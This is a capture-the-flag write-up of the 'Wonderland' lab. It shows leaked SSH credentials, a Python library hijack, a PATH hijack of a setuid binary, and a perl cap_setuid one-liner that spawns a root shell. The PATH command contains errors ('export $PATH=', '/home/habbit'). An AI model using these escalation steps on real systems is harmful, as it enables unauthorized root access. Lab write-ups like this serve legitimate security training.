 # Wonderland
A website was given with Alice in Wonderland story<br/>
Fuzzing through directories, we found `http://<IP>/r/a/b/b/i/t`. Viewing the source code, we found a hidden line:
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
Running nmap on the container shows open port 22.<br/>
Using `pwncat`, logging in as `alice` with password `alice:HowDothTheLittleCrocodileImproveHisShiningTail` and we have 2 files in alice home directory: root.txt and walrus_and_the_carpenter.py. Running `sudo -l` showed we can run python with the file `walrus_and_the_carpenter.py` as user `rabbit`.

On top of `walrus_and_the_carpenter.py` file, it imports random library, we can create the python script named `random.py` in the same directory so it will get called inside `walrus_and_the_carpenter.py`.
```py
import os

os.system('/bin/bash')
```
This script will spawn us a bash for `rabbit`

As `rabbit`, navigate to `/home/rabbit`, we will find a file `teaParty`, throw this file in ghidra we will find it first call `setuid() setgid()` then a `system()` command.
```c
void main(void)
{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```
Inside the system command, `date` is called without an absolute path, we can create a script named `date` and add our path to $PATH.
```sh
export $PATH=/home/habbit:$PATH
```
date script:
```sh
#!/bin/bash
/bin/bash
```
Running `./teaParty` spawns a shell for user `hatter`.

Because I'm using pwncat, `run enumerate.gather` shows:
```
file.caps
  - /usr/bin/perl5.26.1 -> [[cap_setuid+ep]]
  - /usr/bin/mtr-packet -> [[cap_net_raw+ep]]
  - /usr/bin/perl -> [[cap_setuid+ep]]
```
perl has access to setuid, which we can use to elevate to root. From GTFOBins we have a command:
```sh
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
And now we are root!
```sh
cat /home/alice/root.txt
# thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```
As for user.txt, I had to read other's write-ups to realize it's in /root/. Though we cannot read the folder /root, we can still `cat /root/user.txt`